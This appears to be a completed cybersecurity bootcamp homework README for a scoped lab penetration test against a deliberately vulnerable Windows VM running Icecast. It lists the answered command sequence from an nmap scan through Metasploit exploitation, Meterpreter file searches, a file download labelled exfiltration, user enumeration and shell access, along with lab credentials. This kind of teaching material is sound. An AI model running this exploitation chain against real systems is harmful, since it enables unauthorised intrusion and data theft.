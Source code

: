 ## Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- A full report of this engagement can be found at the bottom. 


#### Setup 

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`. 

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
 
- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.
 
#### Scope
 
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
 
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
 
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
 
For this week's homework, please use the following VM setup:
 
- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

**NOTE**: You will need to login to the **DVW10** VM and start the `icecast` service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit **Enter**.
- The icecast application will launch.
- Click on **Start Server**.
- You are now ready to being the activity.

#### Deliverable

Once you complete this assignment, submit your findings in the following document: 
 
### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > `Answer: \nmap -sV 192.168.0.20`

      <img src="Images/Capture1.PNG"/>

      <img src="Images/Capture2.PNG"/>
 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > `Answer: searchsploit icecast` 

        <img src="Images/Capture3.PNG"/>

        <img src="Images/Capture11.PNG"/>


3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > `Answer: msfconsole`

     <img src="Images/Capture4.PNG"/>
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > `Answer: search icecast`

     <img src="Images/Capture5.PNG"/>
 

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > `Answer: use 0`

     <img src="Images/Capture6.PNG"/>
 
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > `Answer: set RHOST 192.168.0.20`

     <img src="Images/Capture7.PNG"/>
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > `Answer: run`

     <img src="Images/Capture8.PNG"/>
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > `Answer: search -f *secret*.txt`

     <img src="Images/Capture9.PNG"/>
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > `Answer: search -f *recipe*.txt`
 
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:

      >`Answer: download c:\Users\IEuser\Documents\Drinks.recipe.txt'

      
    <img src="Images/Capture12.PNG"/>
  

8. You can also use Meterpreter's local exploit suggester to find possible exploits.

 
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  >`Answer: run post/windows/gather/enum_logged_on_users`
                                           
     
B. Open a Meterpreter shell. 
 
  > `Answer: shell`

  <img src="Images/Capture13.PNG"/>
 
C. Run the command that displays the target's computer system information:

   > `Answer: exit to meterpreter and run: sysinfo` 

   <img src="Images/Capture10.PNG"/>

<br>
<br>

## A full report can be found here: [GoodSecurity Penetration Test Report](GoodSecurityReport.pdf)

---

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
